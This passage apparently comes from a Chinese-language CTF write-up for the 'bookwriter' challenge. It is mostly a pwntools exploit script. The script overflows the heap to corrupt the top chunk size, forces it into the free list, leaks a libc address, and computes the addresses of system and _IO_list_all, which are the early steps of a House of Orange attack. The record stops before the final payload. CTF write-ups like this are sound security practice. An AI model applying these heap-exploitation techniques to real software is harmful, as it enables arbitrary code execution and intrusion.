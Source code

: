     314 #endif
    315 };
调用的是overflow那里，把它改成system就行了
exp：

    from pwn import *
    
    io = process('./bookwriter')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    elf = ELF('bookwriter')
    context.log_level = 'debug'
    def add(size,content):
    	io.recvuntil('choice :')
    	io.sendline('1')
    	io.recvuntil('page :')
    	io.sendline(str(size))
    	io.recvuntil('Content :')
    	io.sendline(content)
    def view(idx):
    	io.recvuntil('choice :')
    	io.sendline('2')
    	io.recvuntil('page :')
    	io.sendline(str(idx))
    def edit(idx,content):
    	io.recvuntil('choice :')
    	io.sendline('3')
    	io.recvuntil('page :')
    	io.sendline(str(idx))
    	io.recvuntil('Content:')
    	io.sendline(content)
    def info():
    	io.recvuntil('choice :')
    	io.sendline('4')
    
    name = 'secunda'
    io.recvuntil('Author :')
    Author = 'A'*0x40
    io.send(Author)
    # Heap Overflow to Modify TopChunk Size
    add(0x28,'0'*0x28)          #id=0
    edit(0,'1'*0x28)
    edit(0,'\x00'*0x28+p16(0xfd1)+"\x00")
     
    # Trigger sysmalloc ==> _int_free TopChunk
    add(0x1000,'1'+'\n')        #id=1
     
    # leak libc_base
    add(0x1,'x')                #id=2
    view(2)
    io.recvuntil('Content :\n')
    leak = u64(io.recvuntil('\n',drop=True).ljust(0x8,'\x00'))
    print hex(leak)
    libc_base = leak - libc.symbols['__malloc_hook'] - 1560 - 0x20
    log.info('libbase:'+hex(libc_base))
    system_addr = libc_base+libc.symbols['system']
    log.info('system_addr:'+hex(system_addr))
    IO_list_all = libc_base+libc.symbols['_IO_list_all']
    log.info('_IO_list_all:'+hex(IO_list_all))
